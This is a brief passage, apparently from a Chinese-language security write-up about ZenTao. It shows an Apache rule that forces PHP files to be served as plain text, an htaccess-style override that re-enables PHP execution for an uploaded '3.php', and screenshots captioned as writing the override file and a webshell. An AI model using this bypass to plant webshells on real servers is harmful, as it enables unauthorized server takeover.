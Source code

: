 apache 配置中限定 其他目录下文件只能以txt进行解析

```
<DirectoryMatch "/opt/zbox/app/zentaoep/www/.+/.*">
  <FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    SetHandler text/plain
  </FilesMatch>
</DirectoryMatch>
```

使用 htaceess 覆盖策略

```
<Files "3.php">
    SetHandler application/x-httpd-php
</Files>
```

## webshell 落地上传截图

写入 .ztaccess

![fd2e0c0d7462c31f95238556a0a12cf5.png](/img/zentao/4fd30052c15b4b3fbc443d1832f8ba9e.png)

写webshell
![ded43fe2e9c731dc83b287a0e18bba8b.png](/img/zentao/a28cbb1f5ef545618dae77ec6b923d03.png)
